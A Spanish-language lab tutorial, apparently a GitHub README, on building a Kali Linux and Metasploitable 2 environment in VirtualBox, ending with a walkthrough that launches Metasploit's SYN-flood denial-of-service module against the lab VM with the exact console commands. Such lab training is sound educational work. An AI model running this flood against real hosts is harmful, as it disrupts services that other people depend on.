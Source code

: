 # Metasploitable 2
## Preparación Kali Linux y Metasploitable2
##### Preparando Kali Linux

El virtualizador que usaremos es VirtualBox. Lo primero que haremos será irnos a la página de Kali Linux y descargar el archivo OVA:

https://kali.download/virtual-images/kali-2021.4/kali-linux-2021.4-virtualbox-amd64.7z

![imagen](https://user-images.githubusercontent.com/80277545/146815893-0627a255-e3ed-46dd-94da-05bb3cbbc0b9.png)

Una vez descargado, debemos descromprimirlo y obtener el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817611-3e4ed7ef-879d-4d8a-90b9-f7094e341e17.png)

Ahora abrimos VirtualBox y importamos el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817830-dc69f517-8c4a-42bb-a169-c9d594e9fcab.png)

Una vez instalado tendremos que añadirle otra tarjeta de red, esto lo haremos yendo a la configuración de la maquina > Red > Adaptador2. Lo habilitaremos y añadiremos el "Adaptador sólo-anfritión": 

![imagen](https://user-images.githubusercontent.com/80277545/146818821-d302eb96-32f3-4bef-bd4b-d3835508bbb4.png)

( En caso de no tener el "Adaptador sólo-anfritión", podemos añadirlo desde "archivo" > "Administrador de red anfritión" > Crear ) 
![imagen](https://user-images.githubusercontent.com/80277545/146823922-7d4c0b59-c2fa-495a-b5b4-ab6d452c7bec.png)


La ventaja de hacerlo con este metodo es que no tenemos que "instalar" desde cero Kali Linux. Una vez finalizado, al iniciar el sistema directamente nos pedirá un usuario y una contraseña.

        usuario : kali
        contraseña : kali

##### Preparando Metasploitable2

Ahora descargaremos Metasploitable2 desde el siguiente enlace, para esto tendremos que rellenar este formulario (pueden ser datos falsos) y descargar el archivo comprimido: 

https://information.rapid7.com/download-metasploitable-2017.html

![imagen](https://user-images.githubusercontent.com/80277545/146821125-89d27534-9f43-406a-8b3a-314ef2dc1369.png)

Una vez descargado y descomprimido nos quedarán los siguientes archivos: 

![imagen](https://user-images.githubusercontent.com/80277545/146821415-49dc4747-6175-4f95-94b8-71931b535dda.png)


Ahora crearemos una nueva maquina virtual con las siguientes caracteristicas:

![imagen](https://user-images.githubusercontent.com/80277545/146820065-5e61817b-266c-44bc-ac2e-54463689d62b.png)

Daremos en "Next" y dejaremos la memoria ram asignada en "1024".

Posteriormente crearemos un "Disco duro virtual" :

![imagen](https://user-images.githubusercontent.com/80277545/146820292-ee85fe7f-1d16-438a-b7fe-257227093c3a.png)

De tipo "VDI" y "Reservado dinámicamente" de "10GB".

Una vez creada, nos vamos a "Configuración", "Almacenamiento" y eliminaremos "Metasploitable 2.vdi":

![imagen](https://user-images.githubusercontent.com/80277545/146822046-6d53e649-0459-4f13-8050-5ac2e6a94bbe.png)

Ahora añadiremos el nuevo disco que está dentro de los archivos que descargamos de Metasploitable2:

![imagen](https://user-images.githubusercontent.com/80277545/146822386-a1066bf4-722c-4c69-bc52-99acf64e9629.png)

A esta maquina también le cambiaremos el adaptador red "NAT" a "Adaptador sólo-anfritión":

![imagen](https://user-images.githubusercontent.com/80277545/146823149-188a2bb7-94d2-4540-987f-c3e012b0bd9c.png)


Ahora iniciamos la maquina y nos tendría que salir la siguiente interfaz: 

![imagen](https://user-images.githubusercontent.com/80277545/146822770-0af677c1-8d1f-4c32-bf87-cebd1f3caf5b.png)

El usuario y contraseña es: 

                Usuario : msfadmin
                Contraseña : msfadmin

Una vez dentro ejectuaremos "ifconfig" para saber la IP del eth1:

![imagen](https://user-images.githubusercontent.com/80277545/146823247-d17b9f87-11bf-4d0e-858f-0ba882793b00.png)


## Comprobando conectividad

Una vez estamos dentro de las dos maquinas, desde la de Kali vamos a realizar un ping para comprobar que tiene conectividad. En mi caso, la IP de Metasploitable2 es la 192.168.56.105:

           ping 192.168.56.105

![imagen](https://user-images.githubusercontent.com/80277545/146823628-db34255d-90fd-4beb-a9b3-e0b035b85b73.png)

Si resuelve igual que en la imagen anterior, significa que todo está instalado correctamente. 

Podemos ingresar a la pagina del servidor si desde nuestro Kali Linux introducimos la IP del mismo:

![imagen](https://user-images.githubusercontent.com/80277545/146824329-c54b8f79-1911-4c92-9383-7ea58c62a5ee.png)

# PRACTICA: Realizando un ataque DDoS 

( El fin de esta practica es educativo )

Desde nuestro Kali, vamos a usar un exploit de Metasploit (recordemos que Metasploit simplemente es como una libreria de exploits, una libreria de herramientas). 

Abriremos una terminal y ejecutaremos:

        sudo -i 
        

Iniciaremos Metasploit en modo superusuario: 

        sudo msfdb init && msfconsole
        
![imagen](https://user-images.githubusercontent.com/80277545/146827302-48d76b0a-6696-4606-b135-684022cd46e2.png)


Una vez dentro de Metasploit buscaremos la herramienta/exploit synflood , esto lo haremos con el parametro "search"

        search dos synflood
        
![imagen](https://user-images.githubusercontent.com/80277545/146827368-3bce3c42-0b3b-46d1-893d-85a5c8f08aaf.png)


Seleccionaremos la opción "/auxiliary/dos/tcp/synflood" , esto lo haremos con: 

         use 0 

Una vez seleccionado, miraremos los paramtros de la herramienta con "info":

        info
        
![imagen](https://user-images.githubusercontent.com/80277545/146827466-4088f6be-5251-4c56-9531-42ceb6b87c1c.png)

A continuación pondremos la IP de la maquina a atacar, en este caso será la 192.168.56.105 y ejecutaremos un run:

        set rhosts 192.168.56.105
        run

Al instante se inciará el ataque DDoS:

![imagen](https://user-images.githubusercontent.com/80277545/146829014-d9ccfcff-4ecb-4bde-bb84-2cfe65ba03c8.png)


Cuando se esté realizando el ataque, al recargar la pagina en el navegador, no nos resolverá la petición y se quedará cargando. Esto significará que el servidor está siendo atacado y no puede responder a todas las solicitudes. 







